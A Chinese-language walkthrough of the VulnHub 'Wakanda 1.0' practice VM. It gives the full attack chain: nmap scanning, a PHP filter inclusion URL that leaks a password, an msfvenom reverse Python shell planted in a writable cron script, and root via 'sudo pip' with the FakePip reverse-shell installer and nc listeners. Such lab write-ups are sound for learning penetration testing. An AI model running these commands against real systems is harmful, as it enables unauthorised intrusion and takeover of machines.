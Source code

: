 # Wakanda 1.0

## Information

Wakanda 1.0 is a vulnerable VM created by [VulnHub](https://www.vulnhub.com/entry/wakanda-1,251/). 

[合天网安](https://www.hetianlab.com/expc.do?ec=ECIDe03d-decc-44c8-8129-e89b639605b4)

## 思路

## 0x01 扫描

- `nmap -sP 10.1.1.1/24` 找到主机
- `nmap -A 10.1.1.91` 找到开放端口和服务

扫描出 22/tcp, 80/tcp, 111/tcp

## 0x02 分析
打开 80/tcp 网站找线索，在网站页脚处发现作者为 mamadou， 从源码中发现注释掉的 HTML 代码，去掉注释后发现是一个切换网页语言的链接，点击链接后通过网络请求观察发现是一个 GET 请求，通过参数为 `lang`，值为 `fr` 获取页面而非跳转，所以可以尝试参数注入。

尝试利用 [php伪协议](../blogs/php_filter.md) 读取首页php源码 `http://10.1.1.91/?lang=php://filter/read=convert.base64-encode/resource=index` 。

参数注入成功，将返回的 base64 编码进行解码获得一串密码，尝试使用密码登录 SSH 服务，成功登录，用户为 mamadou 普通用户。

## 0x03 提权

### 从普通用户到普通用户

获得 mamadou 用户权限后，查看 `/home` 目录下的是否其他用户的家目录，发现有一个 `devops` 用户目录，接下来需要获取 `devops` 用户的权限。

- `find` 查找一下 `devops` 用户的文件 `find / -user devops 2>/dev/null`，发现有两个文件 `/srv/.antivirus.py`, `/tmp/test`。
- `ls` 查看两个文件都没有 SUID 权限，所以 SUID 提权方式不可行。但 `/srv/.antivirus.py` 文件对其他用户具有可写权限。
- `cat` 查看 `/srv/.antivirus.py` 文件，发现是一个 python 脚本，脚本的作用是在 `/tmp/test` 文件内写入 `test` 字符串。
- `cat` 查看 `/tmp/test` 文件，发现文件内有 `test` 字符串。
- 推测 `/srv/.antivirus.py` 是一个定时脚本文件，尝试在其中写入反弹 shell 命令，从而获得 `devops` 用户权限。
- 利用 msfvenom 生成反弹 shell 的 python 脚本 `msfvenom -p cmd/unix/reverse_python lhost=10.1.1.91 lport=6666 R`，将生成的脚本去掉`python -c`后写入 `/srv/.antivirus.py` 文件中。
- 同时在攻击机器上监听端口 `nc -lvnp 6666`，等待反弹 shell。即可获得 `devops` 用户权限。

### 从普通用户到 root 用户

主要提权方式有三种：

- SUID 提权
- 内核漏洞提权
- SUDO 提权

#### SUID 提权

对于 SUID 提权，首先需要找到 SUID 文件，然后分析 SUID 文件的权限，最后利用 SUID 文件的权限提权。

`find / -user root -perm -4000 -print 2>/dev/null` 

并没有留下什么可利用的程序，那么 SUID 提权这一办法是不太可行了。

#### 内核漏洞提权

对于内核漏洞提权，首先需要找到内核版本，然后根据内核版本找到对应的漏洞，最后利用漏洞提权。

`uname -a`

内核版本很新，近期没有可利用的漏洞。

#### SUDO 提权

这篇文章有关于 [SUDO 提权的详细介绍](../blogs/linux_sudo.md)，这里就不再赘述了。

对于 SUDO 提权，首先检查一下 当前用户是否在 sudoers 文件中，然后查看 sudoers 文件中的权限，最后利用 sudoers 文件中的权限提权。

使用 `sudo -l` 查看当前用户的权限，发现可以使用 `sudo` 命令执行 `/usr/bin/pip`，而且不需要密码。

查看 `/usr/bin/pip` 文件的权限 `ls -l /usr/bin/pip` ，发现文件具有 SGID 权限。

???+ tip "如何利用 pip 提权"
    
    pip 是一个 Python语言写的软件包管理器，通常用来安装 Python 软件包。如何利用呢？既然 pip 是安装 Python 软件包的，那我们就可以在安装过程中做手脚

这里使用的脚本是 [FakePip](https://github.com/0x00-0x00/FakePip)，这个脚本的原理就是在安装软件包的过程中运行反弹shell命令，从而获得 root 权限。

使用方式很简单，只需将 `setup.py` 文件下载到被攻击机器并修改文件中的 `RHOST` ，然后在本地文件夹中执行：

`sudo /usr/bin/pip install . --upgrade --force-reinstall`

???+ warning "注意"

    需要先在攻击机器上监听端口 `nc -lvnp 443`，等待反弹 shell。因为执行pip命令后会立即反弹 shell，所以需要先监听端口。

同时在本机监听端口 `nc -lvnp 443`，等待反弹 shell。即可获得 `root` 用户权限。

## 总结

- [Linux SUID 提权](../blogs/linux_suid.md)
- [Linux SUDO 提权](../blogs/linux_sudo.md)
- [PHP 伪协议](../blogs/php_filter.md)